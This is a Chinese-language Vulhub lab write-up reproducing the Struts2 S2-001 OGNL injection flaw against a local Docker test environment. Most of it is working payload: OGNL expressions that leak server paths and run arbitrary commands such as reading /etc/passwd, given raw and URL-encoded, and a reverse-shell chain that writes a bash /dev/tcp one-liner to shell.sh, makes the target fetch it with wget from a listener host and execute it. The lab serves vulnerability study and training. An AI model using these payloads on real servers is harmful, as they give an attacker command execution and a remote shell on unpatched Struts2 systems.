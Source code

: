 # Struts2 S2-001 远程代码执行漏洞

## 漏洞描述

该漏洞因为用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用 OGNL 表达式 %{value} 进行解析，然后重新填充到对应的表单数据中。例如注册或登录页面，提交失败后端一般会默认返回之前提交的数据，由于后端使用 %{value} 对提交的数据执行了一次 OGNL 表达式解析，所以可以直接构造 Payload 进行命令执行.

参考阅读：

-  http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

## 环境搭建

Vulhub执行以下命令启动s2-001测试环境：

```
docker-compose build
docker-compose up -d
```

## 漏洞复现

获取tomcat执行路径：

```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

获取Web路径：

```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

执行任意命令（命令加参数：`new java.lang.String[]{"cat","/etc/passwd"}`）：

```
# URLencode前
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"id"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

```
# URLencode后
%25%7B%23a%3D(new%20java.lang.ProcessBuilder(new%20java.lang.String%5B%5D%7B%22id%22%7D)).redirectErrorStream(true).start()%2C%23b%3D%23a.getInputStream()%2C%23c%3Dnew%20java.io.InputStreamReader(%23b)%2C%23d%3Dnew%20java.io.BufferedReader(%23c)%2C%23e%3Dnew%20char%5B50000%5D%2C%23d.read(%23e)%2C%23f%3D%23context.get(%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22)%2C%23f.getWriter().println(new%20java.lang.String(%23e))%2C%23f.getWriter().flush()%2C%23f.getWriter().close()%7D
```

![image-20220301154735903](images/202203011547043.png)

### 反弹shell

准备反弹Shell文件shell.sh：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
```

启动http server：

```
# python2
python -m SimpleHTTPServer 80

# python3
python -m http.server 80
```

上传shell.sh文件：

```
# URLencode前
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"wget","192.168.174.128/shell.sh"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

![image-20220301155634793](images/202203011556922.png)

执行shell.sh文件：

```
# URLencode前
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"bash","/usr/local/tomcat/shell.sh"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

![image-20220301155834822](images/202203011558934.png)

监听9999端口，接收反弹shell：

![image-20220301155706920](images/202203011557020.png)


